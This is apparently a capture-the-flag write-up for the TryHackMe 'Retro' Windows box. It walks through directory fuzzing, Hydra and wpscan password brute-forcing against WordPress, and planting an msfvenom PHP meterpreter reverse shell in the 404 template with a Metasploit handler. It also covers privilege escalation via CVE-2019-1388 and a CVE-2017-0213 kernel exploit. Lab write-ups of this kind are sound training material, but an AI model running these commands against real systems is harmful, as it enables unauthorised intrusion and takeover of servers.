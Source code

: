 **Note: I had significant issues working through this box, as the connection would frequently be dropped. I'm not sure if this is because I was using Kali through VMware. I ended up switching to the built-in Kali box on TryHackMe, which seemed to help.**

# Enumeration

A quick nmap scan reveals that ports 80 and 3389 are open.
 
![89a228305530310cf47a347e88c772d6.png](/Retro/_resources/89a228305530310cf47a347e88c772d6-1.png)
 
Investigating the web server reveals nothing immediate. We search for directories using FFUF.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.18.117/FUZZ -c -t 100 -v
```

A brief explanation of the flags/switches used:
- `-w` specifies the path to the wordlist.
- `-u` specifics the URL, where `FUZZ` indicates the place we should fuzz.
- `-t` specifies the number of threads to use. The default is 40.
- `-v` gives verbose output.
- `-c` makes the output colourful.

Eventually, we find the `/retro` directory. Navigating to this page leads us to a retro gaming blog. We immediately find a username and a link to a login form.
 
![255ae2347532f8812a96a306e85abd34.png](/Retro/_resources/255ae2347532f8812a96a306e85abd34-1.png)

![4fabd57edbd6ee6aa7dc61e507b6ad34.png](/Retro/_resources/4fabd57edbd6ee6aa7dc61e507b6ad34-1.png)

![5c85610d77a5eb7ee447edf631030b53.png](/Retro/_resources/5c85610d77a5eb7ee447edf631030b53-1.png)
 
We also find a blog post revealing some potentially useful information.
 
![93d50d680dfdfbd493a3f64db5ffc33e.png](/Retro/_resources/93d50d680dfdfbd493a3f64db5ffc33e-1.png)
 
At bit of Googling tells us that the name of the avatar that Wade keeps mistyping is referring to is `parzival`.  This turns out to be the password, we we use to log in to Wade's WordPress account.
 
![9907cd4592502321e25444748f8c1952.png](/Retro/_resources/9907cd4592502321e25444748f8c1952-1.png)
 
If we didn't have access to the information given away by Wade, we would have to use Hydra to brute force the login. We already have a possible username, so let's submit the login request to Burp to capture the body of the POST request. Our Hydra command looks like:

```bash
hydra -l Wade -P /usr/share/wordlists/rockyou.txt 10.10.18.117 http-post-form "/retro/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v
```

(At this point, it seems that my machine died. Terminating and trying a new one.)

Hydra doesn't seem to be working here, as the connection seems to time out. Let's try wpscan.

`wpscan --url http://10.10.127.19/retro/wp-login.php -U Wade -P /usr/share/wordlists/rockyou.txt
`

This also doesn't seem to work. Luckily, we already have the password!

<br>

# Exploitation

Now that we have access to Wade's Wordpress account, let's try and use the WordPress theme editor to edit the 404 Template and upload a reverse shell.
 
![5683c9ad5042de27f889314759a5ad02.png](/Retro/_resources/5683c9ad5042de27f889314759a5ad02-1.png)
 
We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. Let's use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to any invalid url on the webpage. The reverse shell tries to launch, but we encounter an error.
 
![d93a8e9449266c751dabafddae677f8d.png](/Retro/_resources/d93a8e9449266c751dabafddae677f8d-1.png)

![6ae90c35a0451cc58796d62cda3930bc.png](/Retro/_resources/6ae90c35a0451cc58796d62cda3930bc-1.png)
 
Some Googling tells us that we're not the first to encounter this error. Thankfully, the explanation is simple.
 
![99aeceb1a7c252ee0fa0338c6361e335.png](/Retro/_resources/99aeceb1a7c252ee0fa0338c6361e335-1.png)
 
We could also try using a [php reverse shell for Windows machines](https://github.com/Dhayalanb/windows-php-reverse-shell), but this didn't work for me either.

Let's instead try using a php reverse shell payload generated by msfvenom.
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw
```

Now copy and paste the raw output into the 404 template and update the file.
 
![7ca759846f47cf684397cfa3868ea91d.png](/Retro/_resources/7ca759846f47cf684397cfa3868ea91d-1.png)
 
Before proceeding, we set up a handler with Metasploit as follows:
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.6.30.43
LHOST => 10.6.30.43
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > run
```

Now send the reverse shell by triggering the 404. Meterpreter catches the reverse shell, and we have an initial foothold.
 
![011e8b21d3b0f57071380f0fcbb53c55.png](/Retro/_resources/011e8b21d3b0f57071380f0fcbb53c55-1.png)
 
At this point, the Meterpreter shell did not do much for me; basic commands like `cd` would often fail. This held true even after switching to the Kali instance on THM.

Luckily, there is another method for gaining initial access into the system. Recall that port 3389 was also open, so we may be albe to RDP into the Windows machine. Using `xfreerdp /u:wade /v:10.10.100.184` and inputting Wade's password get's us in. The `user.txt` flag is on the desktop.
 
![b5bd1fb1040d70714f3896ff0e8fdb32.png](/Retro/_resources/b5bd1fb1040d70714f3896ff0e8fdb32-1.png)
 
<br>

# Post-exploitation

Now that we have initial access, let's see if we can gain Administrator access. Looking around a bit, we see that the page to [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) has been bookmarked in Chrome. This is a Windows Certificate Dialog Elevation of Privilege Vulnerability. Information on how to exploit this vulnerability can be found [here](https://justinsaechao23.medium.com/cve-2019-1388-windows-certificate-dialog-elevation-of-privilege-4d247df5b4d7). A brief summary is also given [here](https://github.com/nobodyatall648/CVE-2019-1388).

To start, we download an executable from [Packet Storm](https://packetstormsecurity.com/files/14437/hhupd.exe.html). Note that this file is also found in the Windows machine's recycling bin.
 
![0837d857d7a2c05ebf8c90db2ffceb19.png](/Retro/_resources/0837d857d7a2c05ebf8c90db2ffceb19-1.png)
 
We need to transfer this file to the target system. Let's set up a web server on our machine with `python -m http.server`.
 
![97fb80da01626337a3300a2937f90c8f.png](/Retro/_resources/97fb80da01626337a3300a2937f90c8f-1.png)

Now run the .exe file as Administrator.

![f956e29aca544a77575e2620eaadcaad.png](/Retro/_resources/f956e29aca544a77575e2620eaadcaad-1.png)

![374876b3445d9626281cee1dbf695611.png](/Retro/_resources/374876b3445d9626281cee1dbf695611-1.png)
 
Here is where I ran into a problem -- the "Issued By" URL needs a default app or browser in order to open. Even after setting a default browser and running through the above steps again, I am not given an option to open the URL. As you can see, the "OK" button remains greyed out:
 
![f24307e975a46e04b5cdc04866457dba.png](/Retro/_resources/f24307e975a46e04b5cdc04866457dba-1.png)
 
At this point, I knew what I had to do but there doesn't seem to be a way to proceed. This issue has been mentioned by many users on the TryHackMe Discord, but I wasn't able to find a solution. The intended path is the following: After opening the "Issued By" URL, we wait for the site to fully load and open a prompt to save the webpage using "Save As". Within this file explorer, we type `C:\WINDOWS\system32\cmd.exe` into the file name bar. This will open a command prompt with root privileges, which we can then use to find the last flag.

Since we're stuck (again), we'll try one last method to get root. Specifically, we're going to use a kernel exploit. Opening the command prompt and using `systeminfo` gives us some information about the Windows build and OS.
 
![66a6c5d935e4ede2a845203c46db7104.png](/Retro/_resources/66a6c5d935e4ede2a845203c46db7104-1.png)
 
Some [research](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---kernel-exploitation) reveals that our build of Windows is affected by [CVE-2017-0213](https://nvd.nist.gov/vuln/detail/CVE-2017-0213), a vulnerability which will allow us to run a kernel exploit and elevate our privileges. A bit of Googling reveals an [exploit](https://github.com/eonrickity/CVE-2017-0213) that we can use. We can confirm that our Windows build is on the list of affected products.
 
![95c14046e1fc85b4f4e2964bbc4711d0.png](/Retro/_resources/95c14046e1fc85b4f4e2964bbc4711d0-1.png)
 
We download the x64 executable to our local machine, host a web server, and download the file on the target. Executing the file gives us a cmd prompt with root access.
 
![9aaeee6dfb96e542ac51e35f643d9bae.png](/Retro/_resources/9aaeee6dfb96e542ac51e35f643d9bae-1.png)
 
Navigating to the Administrator's desktop, we finally find the root flag.
 
![bde4be03ccfeda0354de697ed8934d6c.png](/Retro/_resources/bde4be03ccfeda0354de697ed8934d6c-1.png)
